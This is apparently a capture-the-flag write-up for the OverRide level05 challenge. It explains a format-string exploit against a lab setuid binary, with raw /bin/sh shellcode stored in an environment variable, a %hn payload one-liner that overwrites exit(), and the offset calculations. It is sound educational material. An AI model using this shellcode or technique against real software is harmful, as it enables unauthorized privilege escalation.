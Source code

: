 Level05 protections:
```Shell
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

Level05 rights:
```Shell
level05@OverRide:~$ ls -la level05 
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

Testing the binary:
```Shell
level05@OverRide:~$ ./level05
COUCOU
coucou
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program converts input from uppercase to lowercase, if it's part of the ASCII table
- a format string attack is possible because of an unsafe `printf()` call
- the program ends with a call to `exit()`.

Our solution will consist of storing a shellcode inside an environment variable and overwrite `exit()` with its address. We need to export the shellcode, otherwise any values corresponding to an uppercase letter in ASCII will be modified by the program. So the goal is to use the `%n` specifier, with which we will send the address of the environment variable as a decimal number and store it inside the `exit()` call.

First, let's export our shellcode:
```Shell
export SHELLCODE=`python -c 'print("\x90" * 10 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`
```

Now, let's retrieve the address of a random NOP instruction inside our environment variable:
```Shell
(gdb)  x/s *((char **)environ)
0xffffd8d6: "SHELLCODE=1\311\367\341\260\vQh//shh/bin\211\343̀"    
```

Writing the address in one go is impossible because it exceeds the capacity of an `int`, therefore crashing `%d` and `%n` (as `%n` takes an `*int` as argument). We are forced to divide it and store each part in a `short int`, aka `%hn`.
So our payload will consist in:
[first two bytes of the address of `exit()`] + [last two bytes of the address of `exit()`] (reversed to little endian)
and then
%[last bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn + %[first bytes of the address of our shellcode in decimal]d + %[the index on the stack]$hn
```Shell
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55492d" + "%10$hn" + "%10035d" + "%11$hn")'; cat) | ./level05
```

Let's take a deeper look at the values we provide for the address of the NOP instruction.
The address is 0xffffd8d6, which gives us, in decimal:
ffff = 65535 / d8d6 = 55510
Since we're in little endian, we start with `d8d6`, minus 8 (because of the 8 bytes of the address of `exit()`): 55502.
Then, for `ffff` minus 8 and minus 55502, so we get: 10025.
We will place each value next to each other on the stack, therefore they will be placed at index 10 and index 11, respectively.
